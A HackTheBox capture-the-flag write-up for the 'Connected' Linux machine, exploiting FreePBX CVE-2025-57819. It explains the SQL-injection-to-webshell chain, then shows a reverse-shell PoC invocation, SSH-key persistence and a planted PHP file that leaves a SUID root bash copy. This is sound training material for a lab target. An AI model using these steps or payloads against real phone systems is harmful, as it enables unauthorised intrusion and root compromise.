## Machine Summary

- **Name:** Connected
- **Platform:** HackTheBox
- **OS:** Linux
- **Difficulty:** Easy
- **XP Reward:** 585
- **Key Vulnerability:** CVE-2025-57819 - FreePBX Unauthenticated Remote Code Execution

---

As usual, after start the machine, I will add the target IP to my `/etc/hosts` file for easier access. In this case, the target IP is `10.129.33.153`:

```bash
echo "10.129.33.153 connected.htb" | sudo tee -a /etc/hosts
```

For initial enumeration, I will use `nmap` to scan the target machine for open ports and services:

```bash
sudo nmap -sC -sV -vv --open -p- -T3 connected.htb
```

The scan result:


We see that it has 3 open ports:

- Port 22 (SSH): for remote access to the machine, using OpenSSH 7.4
- Port 80 (HTTP): use Apache 2.4.6 with PHP 7.4.16
- Port 443 (HTTPS): like port 80 but with SSL enabled

In most cases, we will not start with port 22 because we need to find a way to get the credentials first. So, let's check the web service on port 80.



We can see that it is running FreePBX, which is a web-based open-source GUI that manages Asterisk, a voice over IP and telephony server owned by Sangoma. At the footer of the page, we can see that it is running FreePBX version 16.0.40.7.

Click on the first button "FreePBX Administration", it pops up a login dialog. I try some common credentials like `admin:admin`, `admin:password`, and `root:root`, but none of them work. I search Google for FreePBX default credentials, but again, none of them work. Then I notice the version of FreePBX, then i search for "FreePBX version 16 vulnerabilities" on Google.



I found that it relates to CVE-2025-57819, which is an unauthenticated remote code execution vulnerability in FreePBX with CVSS v4.0 = 10. NVD describes that "FreePBX 15, 16, and 17 endpoints are vulnerable due to insufficiently sanitized user-supplied data, allowing unauthenticated access to FreePBX Administrator, arbitrary database manipulation, and remote code execution". After searching a while, I found this [GitHub repository](https://github.com/K3ysTr0K3R/CVE-2025-57819) that explain the root cause and also provide the PoC code for this vulnerability.

---

## Mechanism of CVE-2025-57819

- **Vulnerable endpoint:**

The vulnerable functionality is exposed through the FreePBX AJAX handler:

```http
GET /admin/ajax.php?module=FreePBX%5Cmodules%5Cendpoint%5Cajax&command=model&template=x&model=model&brand=<PAYLOAD>
```

The important parameter here is `brand`. The endpoint processes this user-controlled value and incorporates it into a SQL statement without properly parameterizing or sanitizing the input. As a result, an attacker can manipulate the resulting SQL query and perform SQL injection without authenticating to FreePBX. Public research has demonstrated this behavior through the `brand` parameter.

- **From SQL injection to administrative access**

The important part of this vulnerability is that the SQL injection is not limited to reading data. Because the attacker can manipulate the FreePBX database, the injection can be used to modify application data.

They abuses this capability to insert a new administrative account into the `ampusers` table, then authenticate to the FreePBX Administrator interface using the newly created account. This changes the attack from a simple SQL injection into an authentication bypass.

- **From administrative access to RCE**

Once administrative access has been obtained, the attacker can abuse FreePBX functionality to reach OS command execution. They can use admin privileges to create a scheduled task through the `cron_jobs` database table. The FreePBX cron mechanism then executes the task and writes a PHP webshell into the web root. The webshell provides command execution with the privileges of the FreePBX web/Asterisk account.

- **Simple attack chain:**

```
Unauthenticated attacker
        |
        v
CVE-2025-57819
        |
        v
SQL injection via `brand`
        |
        v
Arbitrary database manipulation
        |
        v
FreePBX administrator access
        |
        v
Abuse FreePBX functionality
        |
        v
PHP webshell / command execution
        |
        v
`asterisk` shell
```

- **Root cause:**

The root cause of CVE-2025-57819 is the use of attacker-controlled input in a SQL query without appropriate input validation and parameterized queries. This makes the `brand` parameter an injection point reachable before authentication. NVD classifies the vulnerability as both CWE-89 (SQL Injection) and CWE-288 (Authentication Bypass Using an Alternate Path or Channel) [<https://nvd.nist.gov/vuln/detail/cve-2025-57819>].

---

Back to our work, I download the PoC code from the GitHub repository, save it as `shell.py`, and run it against the target machine.

```bash
python3 shell.py -u http://connected.htb --lhost <YOUR_TUN0_IP> --lport 4444
```

Wait for a while, and we will get a reverse shell as the `asterisk` user:


Here we can get the user flag in the home directory of `asterisk`:


I check the `/etc/passwd` file and see that user `asterisk` has directory at `/home` so we can create a clone SSH key pair and add the public key to the `~/.ssh/authorized_keys` file of `asterisk` user. Then we can use the private key to login as `asterisk` user via SSH and have a more stable shell. I will use `ssh-keygen` to generate a new key pair and then copy the public key to the target machine:

```bash
ssh-keygen -t rsa -f key_clone -N ""
chmod 600 key_clone
```

Then I copy the public key `key_clone.pub` and paste it into the `~/.ssh/authorized_keys` file of `asterisk` user on the target machine. Inside reverse shell, run:

```bash
mkdir -p ~/.ssh
echo "<PASTE_PUBLIC_KEY_HERE>" >> ~/.ssh/authorized_keys
chmod 700 ~/.ssh
chmod 600 ~/.ssh/authorized_keys
```

Now we can use the private key `key_clone` to login as `asterisk` user via SSH:


After successfully logging in via SSH, we can enumerate the system to find a way to escalate our privilege to root. First I check if we can run any command as root using `sudo -l`, but it ask for password of `asterisk` user and we just log in using ssh key so we don't know the password :D



Try to find some SUID binaries that can be exploited:

```bash
find / -perm -4000 2>/dev/null
```



Lots of SUID binaries, first I think about `crontab` because it appears on [GTFOBins](https://gtfobins.github.io/gtfobins/crontab/) can open vim editor as root. I try to run `/usr/bin/crontab -e` and type `:!/bin/sh` but it just open a new shell as `asterisk` user, not root. Maybe it has checked the user permission before executing the command.

After researching around Internet more about the CVE-2025-57819, I found this [GitHub repository](https://github.com/YuvrajSHAD/FreePBX-CVE-2025-57819) has tell about the `incron` service as the post-exploitation vector. The `incron` service is a daemon that monitors filesystem events and executes commands based on those events. Since `incrontab` has the SUID bit set, maybe we can use it to escalate our privileges.



First, I enumerate the `incron` service configuration file and found 3 files in the `/etc/incron.d` directory.



The syntax of `incron` configuration file is as follows:

```
<watched_file> <events> <command>
```

All three watched files are writable by `asterisk` user, so my idea is that if we can abuse the command and watched files, we can trigger the command to execute as root. I will try the first one `/etc/crontab.d/legacy` because the command has no arguments :D.

Check the command file, it is a PHP script:

```bash
file /usr/sbin/sysadmin_ha
cat /usr/sbin/sysadmin_ha
```

Content of the command file:

```php {lineNos=true}
#!/usr/bin/php -q
<?php

if(file_exists("/var/www/html/admin/modules/freepbx_ha/license.php")) {
include_once("/var/www/html/admin/modules/freepbx_ha/license.php");
}

$i = "/var/www/html/admin/modules/freepbx_ha/functions.inc/incron.php";
if (file_exists($i)) {
        require_once($i);
        $incron = new incron;
        $incron->rootTrigger();
```

In line 9, it includes the file `/var/www/html/admin/modules/freepbx_ha/functions.inc/incron.php`, so I will check this file to see what it does:



Oh, it does not have a file there :0. Check the permissions of the `/var/www/html/admin/modules/` directory, it is writable by `asterisk` user. So, I just need to create the `freepbx_ha/functions.inc/incron.php` file and add the malicious code to escalate our privilege to root. I will create a malicious `incron.php` implementation whose `rootTrigger()` function creates a SUID copy of `/bin/bash`

```bash
mkdir -p /var/www/html/admin/modules/freepbx_ha/functions.inc
cat << EOF > /var/www/html/admin/modules/freepbx_ha/functions.inc/incron.php
... PHP reverse shell code here ...
EOF
```

`incron.php`:

```php {lineNos=true}
<?php
class incron {
    public function rootTrigger() {
        system("cp /bin/bash /tmp/rootbash");
        system("chmod 4755 /tmp/rootbash");
    }
}
?>
```

In this case, I just copy the `/bin/bash` to `/tmp/rootbash` and set the SUID bit on it, so when we execute `/tmp/rootbash`, it will has euid of root. If you want, you can create a reverse shell, modify sudoers file, or add a new user to the system, etc. The choice is yours :D.

Finally, i will trigger the event `IN_CLOSE_WRITE` on the watched file `/usr/local/asterisk/ha_trigger` to execute the command as root. `IN_CLOSE_WRITE` event is triggered when a file is closed after being opened for writing. So, I will use `echo` command to write something to the watched file and then close it:

```bash
echo "trigger" > /usr/local/asterisk/ha_trigger
```

Wait few seconds, then check the `/tmp/rootbash` file, it has SUID bit set and owned by root. Now we can execute `/tmp/rootbash -p` to get a root shell:

[

Finally, we can read the root flag in the `/root` directory:



---

## References

- <https://nvd.nist.gov/vuln/detail/cve-2025-57819>
- <https://www.penligent.ai/hackinglabs/cve-2025-57819>
- <https://github.com/K3ysTr0K3R/CVE-2025-57819>
- <https://github.com/YuvrajSHAD/FreePBX-CVE-2025-57819>
